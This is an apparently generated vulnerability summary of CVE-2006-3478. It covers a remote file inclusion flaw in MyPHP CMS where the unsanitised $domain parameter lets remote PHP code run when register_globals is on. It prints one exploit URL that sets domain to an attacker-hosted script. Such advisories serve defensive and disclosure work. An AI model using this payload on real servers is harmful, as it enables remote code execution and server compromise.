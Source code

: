 Based on the provided content, here's the breakdown of the vulnerability:

**CVE ID:** CVE-2006-3478

**Root cause of vulnerability:** The vulnerability is due to the lack of sanitization of the `$domain` variable in MyPHP CMS. When `register_globals` is enabled in PHP, an attacker can inject malicious PHP code through the `$domain` variable.

**Weaknesses/vulnerabilities present:**
- Remote File Inclusion (RFI) vulnerability.
- Lack of input sanitization of the `$domain` variable.
- Dependence on the deprecated PHP feature `register_globals`.

**Impact of exploitation:**
- An attacker can execute arbitrary PHP code on the server by including a malicious remote file. This can lead to complete compromise of the server.

**Attack vectors:**
- The attacker crafts a URL containing the vulnerable script (`global_header.php`) and sets the `domain` parameter to a malicious script URL:
```
http://www.site.com/[path]/styles/default/global_header.php?installed=23&domain=[Evil_Script]
```
- The `installed` parameter is required for the exploit to function correctly, which was added as a note.

**Required attacker capabilities/position:**
- The attacker needs to be able to send HTTP requests to the vulnerable server.
- The attacker needs to have access to a web server hosting the malicious script to be included.
- The `register_globals` PHP setting must be enabled on the server for the exploit to work.

**Additional Information:**
- The Exploit Database entry (EDB-ID: 1983) provides more details about the vulnerable software (MyPHP CMS <= 0.3) and a PoC exploit.
- The vulnerability is classified as "Dangerous" with a critical level impact.
- The exploit was verified by the EDB.
- The vulnerability was discovered and reported by Kw3[R]Ln from the Romanian Security Team.
- The recommended solution is to properly declare the `$domain` variable.